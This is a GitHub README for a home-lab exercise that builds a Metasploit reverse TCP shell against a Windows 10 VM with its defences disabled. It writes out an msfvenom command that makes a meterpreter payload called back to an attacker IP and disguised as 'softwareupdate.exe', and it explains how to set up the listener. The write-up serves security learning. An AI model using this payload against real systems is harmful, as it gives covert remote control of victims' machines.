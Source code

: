 # Reverse TCP Shell Using Metasploit 

## Objective

In this lab, I will exploit a Windows 10 system using the Metasploit Framework on Kali Linux. By doing so, I will have near-complete access to the victim machine through a reverse TCP shell. Once the shell is established, I will then demonstrate the ability to read directories and files on the target machine. 

The steps below can be followed in order to achieve the same results. 

### Skills Learned

- Networking Concepts
- Metasploit Framework 
- Post-Exploitation Techniques
- Payload Creation

### Project Enviroment Details
- Machine A is a Kali Linux VM.
- Machine B is a Windows 10 VM.
- For testing purposes both machines are on the same network (10.0.2.0/24).
- For testing purposes antivirus will be disabled.
- For testing purposes the Windows 10 firewall is disabled.

# Steps

## Determining the Attacking Machine's IP Address
Before creating the payload, I need to make a note of my Kali system's IP address. By using the command "ifconfig", I am able to quickly view network interface information. I need to gather the IP address of the attacking machine because it is used in the command for the malicious payloads creation. 

![Kali IP Photo](https://github.com/NPIRNER/Reverse-TCP-Connection-Using-Metasploit-Framework/assets/115173142/02c180ec-a0d8-4b74-a74d-e2509063e0a3)

You can see above that the IP address for Machine A is "10.0.2.15".

## Payload Creation
Now that the IP address is identified, I need to create the executable payload that will be used to establish the reverse TCP shell. In order to do so, I can use the Metasploit's "msfvenom" command. Msfvenom is a metasploit command that allows users to create custom payloads for their targets. 

Our target machine is a Windows 10 system so I will be using Msfvenom's Windows Reverse Shell Command. The command is as follows: "msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform win -f exe LHOST=10.0.2.15 LPORT=4444 -o /home/kali/softwareupdate.exe"

![Msfvenom_payload creation](https://github.com/NPIRNER/Reverse-TCP-Connection-Using-Metasploit-Framework/assets/115173142/404ad24e-66ce-47cf-b56c-1106d451fa5a)

The command is comprised of multiple components that specify exactly what executable payload I want to create. In this instance, I want msfvenom to create an  windows executable file to establish the reverse tcp shell connection.

Command Components:
- "-p windows/meterpreter/reverse_tcp" specifies that I want to create a meterpreter reverse TCP shell.
- "-a x86 --platform win" specifies the architecture and platform I want the payload generated for.
- LHOST is where I input my attacking machines IP Address.
- LPORT's purpose is to specify what port the attacking machine should listen on for when the victim machine runs the executable.
- "/home/kali/softwareupdate.exe" specifies the install location and file name.

## Establishing a listener
With the payload created and installed to my specified path "/home/kali", I need to create a listener before launching my attack. A listener is a key component in my reverse shell attack. The listener's role is to wait for the incoming connection from the target machine once its been compromised. Once the listener picks up the target machines signal, the session will be opened. 

![msfconsole photo](https://github.com/NPIRNER/Reverse-TCP-Connection-Using-Metasploit-Framework/assets/115173142/1270309f-345b-4cbe-babe-b3c21d5cd836)

Using "msfconsole", I will launch metasploit's console.






## Reverse TCP Shell
A reverse TCP shell is a type of shell session initiated by the target machine connecting back to the attacker's machine. By initiating a reverse TCP shell, the attacker will gain remote control over the compromised system. This allows the attacker capabilities to execute commands on the target machine and even transfer of data between both macines. 



 


